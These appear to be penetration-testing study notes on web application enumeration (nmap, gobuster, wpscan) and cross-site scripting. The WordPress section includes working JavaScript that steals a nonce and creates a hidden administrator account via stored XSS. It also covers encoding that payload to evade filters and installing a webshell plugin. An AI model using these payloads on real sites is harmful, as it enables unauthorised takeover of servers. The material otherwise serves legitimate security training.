 
# Enumeration
Web application penetration testing is the practice of simulating attacks on a system in an attempt to gain access to sensitive data, with the purpose of determining whether a system is secure. These attacks are performed either internally or externally on a system, and they help provide information about the target system, identify vulnerabilities within them, and uncover exploits that could actually compromise the system. It is an essential health check of a system that informs testers whether remediation and security measures are needed.

With NMAP we can get the **fingerprint** of a webserver.

```shell
sudo nmap -p 443,80 --script=http-enum <target>
```

And can discover most popular directories open on the server.

You can also use **Wappalyzer** to detect the Technology Stack.
# Gobuster
This is a tool that can discover hidden path in webservers. It uses wordlist to bruteforce directories, files or can perform a **Fuzzing** / **DNS** enumeration.

```shell
gobuster dir -u <target> -w /path/to/wordlist -t 10
```

In this case Gobuster is run with 10 threads with a directory bruteforce attack on the given target. Gobuster can also bruteforce APIs path

```shell
gobuster dir -u <target> -w /path/to/wordlist -p /path/to/api-pattern
```

Where the file `/path/to/api-pattern` is something like that

```adblock
{GOBUSTER}/v1
{GOBUSTER}v2
```

Many times custom or not-standard APIs are the most vulnerable. Exploiting a login API, for example, we could log in into a web server with admin privileges.

With `-x` we can specify file extensions

```shell
gobuster dir -u <target> -w /path/to/wordlist -x php js aspx md txt jpg png
```

# Cross-Site Scripting (XSS)
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. XSS are divided in two types: **stored** that remains persistent on the webserver and **reflected** that are usually crafted to be inserted in a link and run-time executed . The most common string to test an XSS vulnerability is

```js
<script>alert(1)</script>
```
But it is also smart to test for the following character
```
< > ' " { } ;
```
In a case when our payload is stored actively on the server, for example if we inject an XSS inside the User Agent, the web administrator of the page could see the XSS (the popup) in his administration page (eg. Wordpress Panel). If the XSS is for example a redirect or some dangerous arbitrary code, many bad things can be done.

## Privilege Escalation via XSS (Wordpress)
WordPress nonces protect the platform against various malicious attacks, particularly cross-site request forgery (CSRF). This cyber attack exploits WordPress security vulnerabilities to trick users into submitting unwanted requests, from changing users’ login details to deleting user accounts. In the following way we can get a Nonce for a dynamically created user.

```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

And we can create the new user with

```js
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

We can then minify the attack with something like [JSCompress](https://jscompress.com/) and ==**encode it in UTF-16**== integer with [Cyberchef](https://gchq.github.io/CyberChef/) or charCodeAt JS function. At this point we only need to find a way to inject it in the Server in a persistent way (XSS Stored). This can be done if the PHP part of the server doesn't sanitize input in the User-Agent or other parameters of the request headers. Once we got the admin access we can craft or use a WebShell plugin to enumerate and exploit the system. We can use something like [Wordpress Shell Login](https://github.com/p0dalirius/Wordpress-webshell-plugin) and can be found on [github](https://github.com/p0dalirius/Wordpress-webshell-plugin).
# Wordpress enumeration

We can enumerate WordPress pages and their plugins and themes with [wpscan](https://github.com/wpscanteam/wpscan). The following bash line will instruct wpscan to enumerate plugins in aggressive mode and print the output on a file

```shell
wpscan --url https://<TARGET> --enumerate p --plugins-detection aggressive -o dir/file.txt
```
